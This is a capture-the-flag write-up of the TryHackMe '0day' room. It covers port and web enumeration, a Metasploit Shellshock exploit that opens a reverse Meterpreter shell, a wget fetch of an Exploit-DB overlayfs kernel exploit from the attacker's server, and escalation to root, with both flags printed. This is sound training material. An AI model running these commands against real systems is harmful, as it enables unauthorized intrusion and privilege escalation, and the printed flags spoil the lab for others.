

[Link to room on TryHackMe.com](https://tryhackme.com/room/0day)


First step : enumerating ports with rustcan and nmap:

```
┌─[✗]─[root@parrot]─[/home/parrot]
└──╼ #rustscan -a 10.10.105.222
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.105.222:22
Open 10.10.105.222:80
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-05-06 22:02 +03
Initiating Ping Scan at 22:02
Scanning 10.10.105.222 [4 ports]
Completed Ping Scan at 22:02, 0.45s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:02
Completed Parallel DNS resolution of 1 host. at 22:02, 1.03s elapsed
DNS resolution of 1 IPs took 1.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 22:02
Scanning 10.10.105.222 [2 ports]
Discovered open port 22/tcp on 10.10.105.222
Discovered open port 80/tcp on 10.10.105.222
Completed SYN Stealth Scan at 22:02, 0.48s elapsed (2 total ports)
Nmap scan report for 10.10.105.222
Host is up, received echo-reply ttl 60 (0.42s latency).
Scanned at 2023-05-06 22:02:26 +03 for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```
```
┌─[✗]─[root@parrot]─[/home/parrot]
└──╼ #nmap -p 22,80 -sC -sV 10.10.105.222       
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-22 07:47 CEST
Nmap scan report for 10.10.105.222
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.16 seconds
```


After this results we see there is only two ports are open. If we search exploit for this versions of services we cant find something useful. So we continue to enumaration for port 80 with gobuster:


```
┌─[root@parrot]─[/home/parrot]
└──╼ #gobuster dir -u http://10.10.105.222/ -w common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.105.222/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 284]
/.htaccess            (Status: 403) [Size: 289]
/.htpasswd            (Status: 403) [Size: 289]
/admin                (Status: 301) [Size: 313] [--> http://10.10.105.222/admin/]
/backup               (Status: 301) [Size: 314] [--> http://10.10.105.222/backup/]
/cgi-bin              (Status: 301) [Size: 315] [--> http://10.10.105.222/cgi-bin/]
/cgi-bin/             (Status: 403) [Size: 288]
/css                  (Status: 301) [Size: 311] [--> http://10.10.105.222/css/]
/img                  (Status: 301) [Size: 311] [--> http://10.10.105.222/img/]
/index.html           (Status: 200) [Size: 3025]
/js                   (Status: 301) [Size: 310] [--> http://10.10.105.222/js/]
/robots.txt           (Status: 200) [Size: 38]
/secret               (Status: 301) [Size: 314] [--> http://10.10.105.222/secret/]
/server-status        (Status: 403) [Size: 293]
/uploads              (Status: 301) [Size: 315] [--> http://10.10.105.222/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```


We see there is robots.txt but when we go to the /robots.txt and there is a funny message:


after that we try to look at the /secret directory but there is only one cute turtle:


So after that we start nikto for to find out which vulnerability this site has:


```
┌─[root@parrot]─[/home/parrot]
└──╼ #nikto -h 10.10.105.222
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.105.222
+ Target Hostname:    10.10.105.222
+ Target Port:        80
+ Start Time:         2023-05-06 22:39:57 (GMT3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /: Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
+ /cgi-bin/test.cgi: Uncommon header '93e4r0-cve-2014-6278' found, with contents: true.
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

```


So nikto says there is shellshock vulnerability for this site and ı know a perfect exploit for it. For this vulnerabilty we use exploit/multi/http/apache_mod_cgi_bash_env_exec  exploit in the metasploit and we set the options like this:


```
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> set  RHOSTS 10.10.105.222
RHOSTS => 10.10.105.222
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> set LHOST 10.17.51.16
LHOST => 10.17.51.16
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> set LPORT 1234
LPORT => 1234
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> run

[*] Started reverse TCP handler on 10.17.51.16:1234 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.105.222
[*] Meterpreter session 1 opened (10.17.51.16:1234 -> 10.10.105.222:41085) at 2023-05-06 22:48:19 +0300

(Meterpreter 1)(/usr/lib/cgi-bin) >
```


And we have a meterpreter shell. For to get a normal shell we use shell command and look for if python exists and we see there is python3 and then we use this command to get a normal shell:


```
(Meterpreter 1)(/usr/lib/cgi-bin) > shell
Process 1087 created.
Channel 1 created.
python3 --version
Python 3.4.0
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/usr/lib/cgi-bin$ 
```


So we see we are in as www-data. When we go the home directory we see there is only one user named ryan and there is a .secret file but we dont have permission to read it. When go to ryan directory we get our first flag:


```
www-data@ubuntu:/usr/lib/cgi-bin$ cd /home
cd /home
www-data@ubuntu:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root root 4096 Sep  2  2020 .
drwxr-xr-x 22 root root 4096 Sep  2  2020 ..
lrwxrwxrwx  1 root root   14 Sep  2  2020 .secret -> /root/root.txt
drwxr-xr-x  3 ryan ryan 4096 Sep  2  2020 ryan
www-data@ubuntu:/home$ cat .secret
cat .secret
cat: .secret: Permission denied
www-data@ubuntu:/home$ cd ryan
cd ryan
www-data@ubuntu:/home/ryan$ ls -la
ls -la
total 28
drwxr-xr-x 3 ryan ryan 4096 Sep  2  2020 .
drwxr-xr-x 3 root root 4096 Sep  2  2020 ..
lrwxrwxrwx 1 ryan ryan    9 Sep  2  2020 .bash_history -> /dev/null
-rw-r--r-- 1 ryan ryan  220 Sep  2  2020 .bash_logout
-rw-r--r-- 1 ryan ryan 3637 Sep  2  2020 .bashrc
drwx------ 2 ryan ryan 4096 Sep  2  2020 .cache
-rw-r--r-- 1 ryan ryan  675 Sep  2  2020 .profile
-rw-rw-r-- 1 ryan ryan   22 Sep  2  2020 user.txt
www-data@ubuntu:/home/ryan$ cat user.txt
cat user.txt
THM{Sh3llSh0ck_r0ckz}
```


After that we use this command to see can we see our permissions but system asks us the password:


```
www-data@ubuntu:/home/ryan$ sudo -l
sudo -l
[sudo] password for www-data: 
```


When we use this command to see what version of linux we have wee se it is a very old one:


```
www-data@ubuntu:/home/ryan$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```


When we search exploit for this version we found a useful exploit:


[Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)





So all we should do send this exploit to the target and run it. For sending we can use python with this command in our attacker box:


```
python3 -m http.server 7000
```


 
Then we go to the /dev/shm directory in the target because it is writable for everyone and we use this command to get our exploit:


```
wget http://10.17.51.16:7000/37292.c
```


Then we compile it and run it with this commands:


```
www-data@ubuntu:/dev/shm$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
www-data@ubuntu:/dev/shm$ chmod +x exploit
chmod +x exploit
www-data@ubuntu:/dev/shm$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
whoami
root
# python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ubuntu:/run/shm#
```


It worked, we are root so we get our root flag:


```
root@ubuntu:/run/shm# cat /root/root.txt
cat root.txt
THM{g00d_j0b_0day_is_Pleased}
```


And thats it, 0day pwned. I hope you enjoy this write up . Thanks for reading!
 


